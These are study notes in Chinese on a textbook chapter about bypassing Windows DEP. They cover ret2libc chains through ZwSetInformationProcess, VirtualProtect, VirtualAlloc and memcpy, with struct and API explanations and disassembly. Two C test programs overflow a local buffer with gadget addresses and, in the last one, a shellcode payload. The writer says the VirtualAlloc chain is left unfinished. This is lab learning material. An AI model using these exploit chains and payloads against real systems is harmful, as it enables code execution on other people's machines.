





# notes about chapter 12
## from 12.3
针对DEP，最好的攻击方法就是ret2libc，在可执行的模块里找到指令，构造出一条攻击链。这种方法操作难度极大，很难找到这么一条可行的攻击链。

书中给出了一些一般性的思路：
>（1）通过跳转到ZwSetInformationProcess 函数将DEP 关闭后再转入shellcode执行。  
>（2）通过跳转到VirtualProtect 函数来将shellcode 所在内存页设置为可执行状态，然后再转入shellcode 执行。  
>（3）通过跳转到VIrtualAlloc 函数开辟一段具有执行权限的内存空间，然后将shellcode 复制到这段内存中执行。

### 利用ZwSetInformationProcess将DEP关闭后再转入shellcode执行

一个进程的DEP设置标识保存在KPROCESS结构中的_KEXECUTE_OPTIONS中：

```
_KEXECUTE_OPTIONS
Pos0 ExecuteDisable :1bit
Pos1 ExecuteEnable :1bit
Pos2 DisableThunkEmulation :1bit
Pos3 Permanent :1bit
Pos4 ExecuteDispatchEnable :1bit
Pos5 ImageDispatchEnable :1bit
Pos6 Spare :2bit
```

结构体的说明：

DEP开启：Pos0 ExecuteDisable设置为1  
DEP关闭：Pos1 ExecuteEnable设置为1  
DisableThunkEmulation 是用于兼容ATL程序  
Permanent被置1后表示这些标志都不能再被修改  

所以将结构体设置为：00000010即可将Pos1 ExecuteEnable设置为1，关闭DEP，即0x02。

NtSetInformationProcess函数：

```C++
ZwSetInformationProcess(
IN HANDLE ProcessHandle,
IN PROCESS_INFORMATION_CLASS ProcessInformationClass,
IN PVOID ProcessInformation,
IN ULONG ProcessInformationLength);

//第一个参数为进程的句柄，设置为−1 的时候表示为当前进程；第二个参数为信息类；第三个参数可以用来设置_KEXECUTE_OPTIONS，第四个参数为第三个参数的长度
```

具体的设置：

```C++
ULONG ExecuteFlags = MEM_EXECUTE_OPTION_ENABLE;(0x02)
ZwSetInformationProcess(
NtCurrentProcess(), // (HANDLE)-1
ProcessExecuteFlags, // 0x22
&ExecuteFlags, // ptr to 0x2
sizeof(ExecuteFlags)); // 0x4
```

#### 使用以上的函数在实际中的一种关闭DEP的方法：使用LdrpCheckNXCompatibility函数

当符合以下条件之一时进程的DEP 会被关闭：  
（1）当DLL 受SafeDisc 版权保护系统保护时；  
（2）当DLL 包含有.aspcak、.pcle、.sforce 等字节时；  
（3）Windows Vista 下面当DLL 包含在注册表“HKEY_LOCAL_MACHINE\SOFTWARE \Microsoft\ Windows NT\CurrentVersion\Image File Execution Options\DllNXOptions”键下边标识出不需要启动DEP 的模块时。

主要的汇编代码：

```x86asm
7C93CD1F CALL ntdll.7C93CCAB ;是SafeDisc
7C93CD24 CMP AL,1
7C93CD26 PUSH 2
7C93CD28 POP ESI
7C93CD29 JE ntdll.7C95F70E ;此跳转将ESI值赋给[EBP-4]然后返回
7C93CD2F CMP DWORD PTR SS:[EBP-4],0
7C93CD33 JNZ ntdll.7C956831 ;[EBP-4]=2转入关闭DEP流程
```

结果：



#### 使用VirtualProtect来关闭DEP

在栈帧中布置好合适的参数，并让程序转入VirtualProtect函数执行，就可以将shellcode所在内存设置为可执行状态，进而绕过DEP。

VirtualProtect函数:

```C++
BOOL VirtualProtect(
LPVOID lpAddress,
DWORD dwSize,
DWORD flNewProtect,
PDWORD lpflOldProtect
);
```

各参数的意义为：  
lpAddress，要改变属性的内存起始地址。  
dwSize，要改变属性的内存区域大小。  
flNewProtect，内存新的属性类型，设置为PAGE_EXECUTE_READWRITE（0x40）时该内存页为可读可写可执行。  
pflOldProtect，内存原始属性类型保存地址。  
修改内存属性成功时函数返回非0，修改失败时返回0。  

布置成如下情况即可：

```
BOOL VirtualProtect(
shellcode 所在内存空间起始地址,
shellcode 大小,
0x40,
某个可写地址
);
```

这里我的虚拟机有问题，貌似导入shell32.dll后，在ollydbg里没有找到该模块，找不到要用到的指令。

### 利用利用VirtualAlloc生成一段可执行的内存

```C++
//VirtualAlloc的代码表述：
LPVOID WINAPI VirtualAlloc(
__in_opt LPVOID lpAddress,
__in     SIZE_T dwSize,
__in     DWORD flAllocationType,
__in     DWORD flProtect
);
```

参数含义：

1. lpAddress:申请内存空间的起始地址。  
2. dwSize:空间的大小。  
3. flAllocationType:申请的内存的类型。  
4. flProtect:申请内存的访问控制类型，如读、写、执行等权限。

实验的shell32.dll中的VirtualAlloc地址：0x7C809AE1

测试代码：

```C++
#include<stdlib.h>
#include<string.h>
#include<stdio.h>
#include<windows.h> 
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90"

"\xe5\xe0\x72\x7d"//修正 EBP retn 4 
"\xE1\x9A\x80\x7C"//call VirtualAlloc 
"\x90\x90\x90\x90" 
"\xFF\xFF\xFF\xFF"//-1 当前进程 
"\x00\x00\x03\x00"//申请空间起始地址
"\xFF\x00\x00\x00"//申请空间大小
"\x00\x10\x00\x00"//申请类型 
"\x40\x00\x00\x00"//申请空间访问类型 

;
void test()
{
	char tt[176]; 
	memcpy(tt,shellcode,450);
}
int main()
{
	_asm int 3;
	HINSTANCE hInst = LoadLibrary("shell32.dll"); 
	
	char temp[200];
	test(); 
	return 0;
}

```
>纠正书中代码错误：
>P364中对"\xBC\x45\x82\x7C"的注释应该改为VirtualMalloc地址。

修正ebp指令地址：0x7d72e0e5  
在此处下断点，跟随：  



此时的ebp因为刚才的覆盖导致被污染(90909090)，所以需要进行修复，修复的过程:

```
push esp
pop  ebp
ret 4
```

即将原先存储返回地址的地方(存储0x7d72e0e5)作为一个新的栈空间，新的ebp为存储返回地址的地址+4，新的esp为存储返回地址的地址-4(这样才能继续接下来的操作，即将相对ebp偏移的一些参数做为VirtualAlloc的参数使用)。



运行到此处时函数的参数已经得到(eax=0x00030000)：



pop eax ret地址：0x7C80997D

这里产生问题：



懒得调了。。。。。
之后思路大概是将\xFF\xFF\xFF\xFF换成memcpy的地址。

## from 12.4  利用可执行内存挑战 DEP

```
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <windows.h>
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x8A\x17\x84\x7C"//pop eax retn
"\x0B\x1A\xBF\x7C"//pop pop retn
"\xBA\xD9\xBB\x7C"//修正EBP retn 4
"\x5F\x78\xA6\x7C"//pop retn
"\x08\x00\x14\x00"//弹出对机器码在可执行空间的起始地址，转入执行用
"\x00\x00\x14\x00"//可执行内存空间地址，拷贝用
"\xBF\x7D\xC9\x77"//push esp jmp eax && 原始shellcode起始地址
"\xFF\x00\x00\x00"//shellcode长度
"\xAC\xAF\x94\x7C"//memcpy
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
;
void test()
{
	char tt[176];
	memcpy(tt,shellcode,450);
}
int main()
{
	HINSTANCE hInst = LoadLibrary("shell32.dll");
	char temp[200];
	test();
    return 0;
}
```